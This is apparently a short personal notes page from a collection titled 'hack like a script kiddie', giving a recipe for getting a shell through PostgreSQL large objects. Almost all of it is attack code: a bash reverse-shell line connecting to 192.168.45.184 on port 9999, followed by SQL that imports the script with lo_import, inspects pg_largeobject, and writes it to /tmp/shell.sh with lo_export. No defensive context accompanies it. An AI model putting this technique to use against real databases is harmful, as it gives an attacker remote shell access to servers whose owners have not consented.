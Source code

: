 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/postgres-sql/1-1-psql-large-object-shell-linux/","noteIcon":"","created":"2025-04-15T14:11:19.610-04:00"}
---
```



















1```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.45.184/9999 0>&1' 

SELECT lo_import('/dev/stdin');


SELECT oid, lomowner, lomacl
FROM pg_largeobject_metadata;

SELECT loid, pageno, encode(data, 'hex') AS data_hex
FROM pg_largeobject
WHERE loid = 12345
ORDER BY pageno;


SELECT lo_export(oid, '/tmp/shell.sh') 
FROM pg_largeobject_metadata 
WHERE oid = 16503;


SELECT lo_export(12345, '/tmp/large_object_12345.bin');

```